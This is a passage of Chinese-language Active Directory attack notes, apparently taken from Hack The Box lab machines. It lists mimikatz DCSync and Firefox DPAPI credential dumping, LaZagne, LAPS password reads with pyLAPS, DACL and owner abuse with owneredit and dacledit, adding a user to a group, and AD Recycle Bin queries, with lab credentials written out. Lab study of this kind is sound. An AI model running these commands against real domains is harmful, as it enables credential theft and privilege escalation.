 ```
非交互式运行：
mimikatz.exe dpapi::firefox
mimikatz.exe lsadump::dcsync /domain:scrm.local /all /csv
```

## 主机密码获取

```
浏览器等：
https://github.com/AlessandroZ/LaZagne


```

### ReadLAPSPassword

```
https://github.com/p0dalirius/pyLAPS
查询密码：
python pyLAPS.py --action get -u 'JDgodd' -d 'streamio.htb' -p 'JDg0dd1s@d0p3cr3@t0r' --dc-ip 10.10.11.158

```

### writeowner 权限：

```
修改用户所有者：

python owneredit.py -action write -new-owner 'JDgodd' -target 'CORE STAFF' 'STREAMIO.HTB'/'JDgodd':'JDg0dd1s@d0p3cr3@t0r'

修改DACL权限：
具体情况具体分析，主要是看这个组有什么权限,最好是完全控制权限：FullControl
授予JDgodd向CORE STAFF组添加用户的权限：
dacledit.py -action 'write' -rights 'WriteMembers' -principal 'JDgodd' -target-dn 'CN=CORE STAFF,CN=USERS,DC=STREAMIO,DC=HTB' 'STREAMIO.HTB'/'JDgodd':'JDg0dd1s@d0p3cr3@t0r'

把自己添加到CORE STAFF组内：

net rpc group addmem "CORE STAFF" "JDgodd" -U "STREAMIO.HTB"/"JDgodd"%"JDg0dd1s@d0p3cr3@t0r" -S "dc.STREAMIO.HTB"

```

## AD Recycle Bin组


```
查看已经删除了的用户：
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects
获取该用户的详细信息：
Get-ADObject -filter { SAMAccountName -eq "TempAdmin" } -includeDeletedObjects -property *
```
